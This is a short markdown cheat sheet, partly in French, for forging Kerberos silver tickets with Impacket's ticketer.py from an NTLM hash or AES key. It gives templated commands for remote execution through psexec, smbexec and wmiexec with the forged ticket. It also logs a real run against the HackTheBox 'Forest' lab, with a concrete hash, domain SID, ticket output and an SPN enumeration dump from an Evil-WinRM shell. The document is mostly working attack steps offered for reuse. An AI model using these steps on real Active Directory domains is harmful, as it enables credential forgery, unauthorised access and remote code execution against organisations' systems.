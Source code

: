# silverticket
## To generate the TGS with NTLM
python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

## To generate the TGS with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

## Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

## Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass


## recuperer un ticket

/usr/share/doc/python3-impacket/examples/ticketer.py -nthash 9248997E4EF68CA2BB47AE4E6F128668 -dc-ip 10.10.10.161 -domain HTB.local -domain-sid S-1-5-21-3072663084-364016917-1341370565 -spn kadmin/changepw svc-alfresco
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for HTB.local/svc-alfresco
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Saving ticket in svc-alfresco.ccache



## enumerer les SPN:
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> setspn -Q */*
Checking domain DC=htb,DC=local
CN=FOREST,OU=Domain Controllers,DC=htb,DC=local
	TERMSRV/FOREST
	TERMSRV/FOREST.htb.local
	exchangeAB/FOREST
	exchangeAB/FOREST.htb.local
	Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/FOREST.htb.local
	ldap/FOREST.htb.local/ForestDnsZones.htb.local
	ldap/FOREST.htb.local/DomainDnsZones.htb.local
	DNS/FOREST.htb.local
	GC/FOREST.htb.local/htb.local
	RestrictedKrbHost/FOREST.htb.local
	RestrictedKrbHost/FOREST
	RPC/236ba33a-7959-4a41-b959-5f82689a0871._msdcs.htb.local
	HOST/FOREST/HTB
	HOST/FOREST.htb.local/HTB
	HOST/FOREST
	HOST/FOREST.htb.local
	HOST/FOREST.htb.local/htb.local
	E3514235-4B06-11D1-AB04-00C04FC2DCD2/236ba33a-7959-4a41-b959-5f82689a0871/htb.local
	ldap/FOREST/HTB
	ldap/236ba33a-7959-4a41-b959-5f82689a0871._msdcs.htb.local
	ldap/FOREST.htb.local/HTB
	ldap/FOREST
	ldap/FOREST.htb.local
	ldap/FOREST.htb.local/htb.local
CN=krbtgt,CN=Users,DC=htb,DC=local
	kadmin/changepw
CN=EXCH01,CN=Computers,DC=htb,DC=local
	IMAP/EXCH01
	IMAP/EXCH01.htb.local
	IMAP4/EXCH01
	IMAP4/EXCH01.htb.local
	POP/EXCH01
	POP/EXCH01.htb.local
	POP3/EXCH01
	POP3/EXCH01.htb.local
	exchangeRFR/EXCH01
	exchangeRFR/EXCH01.htb.local
	exchangeAB/EXCH01
	exchangeAB/EXCH01.htb.local
	exchangeMDB/EXCH01
	exchangeMDB/EXCH01.htb.local
	SMTP/EXCH01
	SMTP/EXCH01.htb.local
	SmtpSvc/EXCH01
	SmtpSvc/EXCH01.htb.local
	WSMAN/EXCH01
	WSMAN/EXCH01.htb.local
	RestrictedKrbHost/EXCH01
	HOST/EXCH01
	RestrictedKrbHost/EXCH01.htb.local
	HOST/EXCH01.htb.local





